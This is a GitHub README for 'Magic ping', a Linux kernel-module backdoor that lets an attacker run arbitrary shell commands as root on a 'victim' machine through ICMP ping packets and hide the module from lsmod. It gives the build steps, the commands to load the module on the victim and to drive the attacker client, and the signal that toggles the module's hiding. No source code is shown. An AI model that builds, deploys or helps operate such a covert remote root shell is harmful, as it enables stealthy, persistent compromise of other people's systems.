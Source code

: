 Magic ping - shell execution

<div align="center">

![Ping - ICMPv4](https://img.shields.io/badge/Ping-ICMPv4-2ea44f) ![License - MIT](https://img.shields.io/badge/License-MIT-blue) 
![Security - Post penetration](https://img.shields.io/badge/Security-Post_penetration-yellow) 

![Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.4.0--109--generic_%23123--Ubuntu_x86__64_GNU%2FLinux-orange)
![Tested on - 5.13.0-40-generic #45~20.04.1-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.13.0--40--generic_%2345~20.04.1--Ubuntu_x86__64_GNU%2FLinux-orange)
</div>

## Features:

* Romete shell command execution by ping.
* Hiding (or Showing) Kernel Module from Userspace. 

## Asciinema Demo

[![asciicast](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM.svg)](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM)

## Compile 

**compile server(victim) kernel module:**

```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.mod
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```

Use `lsmod` to check.


## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
